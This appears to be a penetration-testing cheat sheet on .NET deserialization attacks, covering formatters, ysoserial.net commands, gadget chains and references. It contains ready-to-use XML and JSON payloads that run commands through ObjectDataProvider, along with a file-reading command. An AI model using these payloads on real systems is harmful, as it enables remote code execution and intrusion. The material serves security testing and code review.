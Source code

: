 # .NET Serialization

## Summary

* [Detection](#detection)
* [Tools](#tools)
* [Formatters](#formatters)
    * [XmlSerializer](#xmlserializer)
    * [DataContractSerializer](#datacontractserializer)
    * [NetDataContractSerializer](#netdatacontractserializer)
    * [LosFormatter](#losformatter)
    * [JSON.NET](#jsonnet)
    * [BinaryFormatter](#binaryformatter)
* [POP Gadgets](#pop-gadgets)
* [References](#references)


## Detection

* `AAEAAD` (Hex) = .NET deserialization BinaryFormatter
* `FF01` (Hex) / `/w` (Base64) = .NET ViewState

Example: `AAEAAAD/////AQAAAAAAAAAMAgAAAF9TeXN0ZW0u[...]0KPC9PYmpzPgs=`


## Tools

* [pwntester/ysoserial.net - Deserialization payload generator for a variety of .NET formatters](https://github.com/pwntester/ysoserial.net)
```ps1
$ cat my_long_cmd.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
$ ./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
$ ./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
$ ./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```

## Formatters

![NETNativeFormatters.png](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Insecure%20Deserialization/Images/NETNativeFormatters.png?raw=true)    
.NET Native Formatters from [pwntester/attacking-net-serialization](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=15)

### XmlSerializer

* In C# source code, look for `XmlSerializer(typeof(<TYPE>));`.
* The attacker must control the **type** of the XmlSerializer.
* Payload output: **XML**

```xml
.\ysoserial.exe -g ObjectDataProvider -f XmlSerializer -c "calc.exe"
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc.exe</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
```


### DataContractSerializer

> The DataContractSerializer deserializes in a loosely coupled way. It never reads common language runtime (CLR) type and assembly names from the incoming data. The security model for the XmlSerializer is similar to that of the DataContractSerializer, and differs mostly in details. For example, the XmlIncludeAttribute attribute is used for type inclusion instead of the KnownTypeAttribute attribute.

* In C# source code, look for `DataContractSerializer(typeof(<TYPE>))`.
* Payload output: **XML**
* Data **Type** must be user-controlled to be exploitable


### NetDataContractSerializer 

> It extends the `System.Runtime.Serialization.XmlObjectSerializer` class and is capable of serializing any type annotated with serializable attribute as `BinaryFormatter`.

* In C# source code, look for `NetDataContractSerializer().ReadObject()`.
* Payload output: **XML**

```ps1
.\ysoserial.exe -f NetDataContractSerializer -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```

### LosFormatter

* Use `BinaryFormatter` internally.

```ps1
.\ysoserial.exe -f LosFormatter -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```


### JSON.NET

* In C# source code, look for `JsonConvert.DeserializeObject<Expected>(json, new JsonSerializerSettings`.
* Payload output: **JSON**

```ps1
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc.exe" -t
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35', 
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

### BinaryFormatter

> The BinaryFormatter type is dangerous and is not recommended for data processing. Applications should stop using BinaryFormatter as soon as possible, even if they believe the data they're processing to be trustworthy. BinaryFormatter is insecure and can’t be made secure.

* In C# source code, look for `System.Runtime.Serialization.Binary.BinaryFormatter`.
* Exploitation requires `[Serializable]` or `ISerializable` interface.
* Payload output: **Binary**


```ps1
./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```


## POP Gadgets

These gadgets must have the following properties:
* Serializable
* Public/settable variables
* Magic "functions": Get/Set, OnSerialisation, Constructors/Destructors

You must carefully select your **gadgets** for a targeted **formatter**.


List of popular gadgets used in common payloads.
* **ObjectDataProvider** from `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll`
    * Use `MethodParameters` to set arbitrary parameters
    * Use `MethodName` to call an arbitrary function 
* **ExpandedWrapper**
    * Specify the `object types` of the objects that are encapsulated
    ```cs
    ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
    ```
* **System.Configuration.Install.AssemblyInstaller**
    * Execute payload with Assembly.Load   
    ```cs
    // System.Configuration.Install.AssemblyInstaller
    public void set_Path(string value){
        if (value == null){
            this.assembly = null;
        }
        this.assembly = Assembly.LoadFrom(value);
    }
    ```


## References

* [Attacking .NET Serialization - Alvaro - October 20, 2017](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=11)
* [Attacking .NET Deserialization - Alvaro Muñoz - 28 avr. 2018](https://youtu.be/eDfGpu3iE4Q)
* [Friday the 13th: JSON Attacks - Alvaro Muñoz (@pwntester) Oleksandr Mirosh - Slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
* [Friday the 13th: JSON Attacks - Alvaro Muñoz (@pwntester) Oleksandr Mirosh - White Paper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)
* [Friday the 13th: JSON Attacks - Alvaro Muñoz (@pwntester) Oleksandr Mirosh - DEF CON 25 Conference](https://www.youtube.com/watch?v=ZBfBYoK_Wr0)
* [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - James Forshaw - Slides](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf)
* [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - James Forshaw - White Paper](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
* [Now You Serial, Now You Don't - Systematically Hunting for Deserialization Exploits - ALYSSA RAHMANDEC](https://www.mandiant.com/resources/blog/hunting-deserialization-exploits)
* [Exploiting Deserialisation in ASP.NET via ViewState - Soroush Dalili (@irsdl) - 04/2019](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
* [Bypassing .NET Serialization Binders - Markus Wulftange - June 28, 2022](https://codewhitesec.blogspot.com/2022/06/bypassing-dotnet-serialization-binders.html)
* [Basic .Net deserialization (ObjectDataProvider gadget, ExpandedWrapper, and Json.Net) - hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net)
* [Sitecore Experience Platform Pre-Auth RCE - CVE-2021-42237 - Nov 2, 2021 - Shubham Shah](https://blog.assetnote.io/2021/11/02/sitecore-rce/)
* [Finding a New DataContractSerializer RCE Gadget Chain - November 7, 2019 - dugisec](https://muffsec.com/blog/finding-a-new-datacontractserializer-rce-gadget-chain/)